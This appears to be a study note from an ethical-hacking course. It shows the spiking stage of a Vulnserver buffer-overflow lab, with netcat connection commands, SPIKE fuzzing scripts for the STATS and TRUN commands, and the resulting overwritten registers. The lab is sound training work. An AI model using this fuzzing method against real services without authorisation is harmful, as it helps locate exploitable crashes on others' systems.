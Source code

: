 # Spiking 

Run both vulnserver and ImmunityDebugger
Connect to Windows machine from Linux using netcat:
```
nc -nv <WindowsIP> 9999
```

9999 is the vulnserver port

Immediately connect to VulnServer!
```text
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kstet_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
```

We will focus on the `TRUN` command which in itself is vulnerable. How to find that?:

Use **spiking** and test every command for Buffer Overflow
To spike, will use `generic_send_tcp`
First, EXIT the VulnServer

```shell
root@kali:~# generic_send_tcp 
argc=1
Usage: ./generic_send_tcp host port spike_script SKIPVAR SKIPSTR
./generic_send_tcp 192.168.1.100 701 something.spk 0 0
```

We will leave te variables SKIPVAR and SKIPSTR as 0 
but we need a spike_script

We will provide the script for `stats.spk`:
```shell
s_readline();
s_string("STATS ");
s_string_variable("0");
```
when we spike this, it will send variables in all forms and iterations, e.g. 1000 at a time or 5 at a time or 20000 at a time randomly to try and break it 

Also make a `trunk.spk`
```shell
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

Run them:
```
generic_send_tcp 10.0.2.15 9999 stats.spk 0 0
generic_send_tcp 10.0.2.15 9999 trun.spk 0 0
```

First one, nothing really happens, second one, debugger pauses and we can check the registers:
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/0a59b0d43a474ebab6e35c7d3671712a.png?raw=true)

We can see that the EAX register has overflowed 
On EBP we see 41414141 which is hex code for four A's

